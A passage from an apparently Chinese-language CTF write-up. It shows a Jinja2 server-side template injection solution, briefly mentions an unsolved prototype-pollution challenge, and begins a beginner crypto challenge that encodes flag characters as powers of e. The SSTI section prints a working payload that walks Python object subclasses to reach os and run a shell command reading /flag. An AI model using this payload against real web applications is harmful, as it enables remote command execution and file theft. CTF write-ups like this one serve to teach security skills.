 **成功发现注入点!**

先获取object基本类的子类

```bash
{{''.__class__.__mro__[1].__subclasses__()}}
```

找到可以利用的os类，通常可以找到`<class'os._wrap_close'>`

```bash
{{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```

![](https://i.loli.net/2021/09/24/GosJh6QWPbeVkRf.png)







### <font color='red'>(10)fake game</font>

> 未做出

题目环境还未恢复，知识点是`原型链污染`



## 二、Crypto

(注释都是自己加的)

### (1)beginOfCrypto

原题：

```python
import math
flag = xxx
# 将flag每个字符的ascii码值存入列表
data = list(map(ord, flag))
cip = []
for i in range(len(data)):
    cip.append(math.e ** data[i])
print(cip)
'''
[2.178203880729008e+47, 1.6094870669615087e+48, 7.307059979368028e+43, 9.889030319346894e+42, 2.3886906014249767e+50, 1.9862648361376436e+44,
 2.6195173187490456e+53, 9.889030319346894e+42, 7.016735912097614e+20, 2.178203880729008e+47, 7.307059979368028e+43, 1.811239082889014e+41,
 1.6094870669615087e+48, 5.920972027664636e+47, 214643579785915.7, 3.6379709476087856e+42, 7.307059979368028e+43, 5.399227610580139e+44,
 3.989519570547194e+45, 5.920972027664636e+47, 1.811239082889014e+41, 3.5451311827611436e+52, 1.6094870669615087e+48, 6.493134255664421e+50,
 3.23274119108484e+49, 1.811239082889014e+41, 1.2523631708422093e+29, 3.23274119108484e+49, 3.5451311827611436e+52, 4.375039447261315e+48,
 2.3886906014249767e+50, 7.016735912097614e+20, 1.811239082889014e+41, 9.889030319346894e+42, 3.831008000716566e+22, 3.23274119108484e+49,
 1.4093490824269349e+22, 1.4093490824269349e+22, 3.23274119108484e+49, 1.9355760420357097e+54]
'''
```
